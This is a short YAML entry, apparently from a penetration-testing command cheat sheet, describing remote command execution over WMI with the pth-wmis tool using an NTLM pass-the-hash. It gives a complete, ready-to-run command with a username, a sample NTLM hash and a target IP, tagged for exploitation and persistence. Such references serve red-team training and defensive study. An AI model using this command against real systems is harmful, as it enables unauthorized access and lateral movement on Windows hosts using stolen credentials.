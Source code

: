 ```yaml
---
description: Execute commands remotely over WMI using wmis with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  pth-wmis -U john%00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 10.10.10.1

items:
  - Hash

services:
  - WMI
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation
  - Persistence

references:
  - https://github.com/byt3bl33d3r/pth-toolkit
  - https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page
---
```

